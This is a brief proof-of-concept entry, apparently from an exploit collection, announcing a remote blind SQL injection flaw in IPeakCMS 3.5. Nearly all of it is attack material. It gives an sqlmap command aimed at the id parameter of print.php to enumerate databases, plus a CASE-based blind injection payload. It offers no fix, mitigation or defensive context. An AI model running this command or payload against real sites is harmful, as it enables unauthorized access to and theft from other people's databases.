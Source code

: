 <languages />

简介
----

IPeakCMS3.5存在远程SQL盲注漏洞。

POC
---

    Use SQLmap if you've found the valid id...
    e.g: sqlmap -u "site.com/cms/print.php?id=1" --dbs
    Payload : id=(SELECT (CASE WHEN(3104=3104) THEN 1 ELSE (SELECT 8458) END))